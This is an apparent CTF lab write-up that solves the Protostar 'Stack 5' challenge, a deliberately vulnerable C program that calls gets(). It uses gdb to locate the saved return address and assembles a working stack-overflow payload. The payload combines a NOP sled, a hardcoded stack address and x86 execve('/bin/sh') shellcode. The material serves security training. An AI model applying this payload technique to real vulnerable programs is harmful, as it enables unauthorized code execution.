 # Stack 5


```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}

```

vulnerability :  usage of gets() function will lead to buffer overflow

goal: This time there isn't win function to jump to however this isn't a problem we can
inject our own code to obtain a shell 


## Static and Dynamic analysis :

Let's look at the assembly code with gdb  : 

```
(gdb) disas main
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0  <----- esp lowest byte is put to 0 so there will be some padding
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]   <---- 2) eax points on [esp+0x10] (this is where 'buffer' start)
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax  <--- 1) eax points on the content of 'buffer'
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret 
```

It looks a lot to the previous challenge ! 

With the static analysis we cannot know the padding that will be created by  <main+3>.

Like the previous challenge 'buffer' is 64 bytes.

Let's dig with the dynamic analysis : 


```asm

(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
(gdb) b* 0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff874) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) x/25x $esp
0xbffff770:	0xbffff780	0xb7ec6165	0xbffff788	0xb7eada75
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7c0:	0x08048300	0x00000000	0xbffff848	0xb7eadc76
0xbffff7d0:	0x00000001
(gdb) x/x $ebp
0xbffff7c8:	0xbffff848

```
We need to add 3*4=12 bytes to overwrite the save ebp.

```asm
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBB

Breakpoint 1, main (argc=1, argv=0xbffff874) at stack5/stack5.c:11
11	in stack5/stack5.c
(gdb) x/25x $esp
0xbffff770:	0xbffff780	0xb7ec6165	0xbffff788	0xb7eada75
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7c0:	0x42424242	0x42424242	0x42424242	0xb7eadc00
0xbffff7d0:	0x00000001
(gdb) x/x $ebp
0xbffff7c8:	0x42424242


```

Ok so 4 more bytes and we control the save eip but where do we jump ??

Our goal is to inject our own code to execute a shell and since the stack is executable it is possible.

There are already many shellcode available, i use mine : [shellcode](https://github.com/jjeyanthan/shellcoding/blob/main/shell_without_priv_x86/shell.hex)

```hex
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80

```


Address outside and inside gdb are not the same due to some environnement variable, therefore we
need to add some nop instruction (opcode x90 ).


```


  |  |---------------------|
  |  |    SHELLCODE        |
  |  |                     |
  |  | bunch of  NOP \x90  |
  |  |                     |<---- 
  |  |---------------------|    |
  |  |                     |    |
  |  |       Seip          |    |
  |  |                     |-----
  |  |---------------------|
  |  |                     |
  |  |       Sebp          |   
  |  |                     |
  |  |---------------------|                                              
  |  |                     |         
  |  |       buffer        |           
  |  |                     |        
  |  |                     |                          
  |  |                     |                      
  |  |---------------------|     
  |  |       .....         |                      
  |  |---------------------|               
  v                                              

```
Let's make a simple payload to find in gdb where to jump : 

padding *(64+12)  +  address in the nop sled  + bunch of nop + shellcode 

We will simulate our payload with the following payload : 

```
>>> 'A'*76 + 'BBBB' + 'C'*50 + 'D'*30
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD

```
The 'C's (which is 0x43 in hex) represent the fake nop sled , let's find a random address in the 'C's. 


```
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
(gdb) b *main+22
Breakpoint 2 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD

Breakpoint 2, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) x/20x $esp
0xbffff7cc:	0x42424242	0x43434343	0x43434343	0x43434343
0xbffff7dc:	0x43434343	0x43434343	0x43434343	0x43434343
0xbffff7ec:	0x43434343	0x43434343	0x43434343	0x43434343
0xbffff7fc:	0x43434343	0x44444343	0x44444444	0x44444444
0xbffff80c:	0x44444444	0x44444444	0x44444444	0x44444444


```

Let's jump at 0xbffff7dc ! 

So our payload will like this : 

```
shellcode=b'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80'
payload=b'A'*76 + b'\xdc\xf7\xff\xbf'   + b'\x90' *70 + shellcode
print(payload)

```



##  Exploit

![](win_m.png)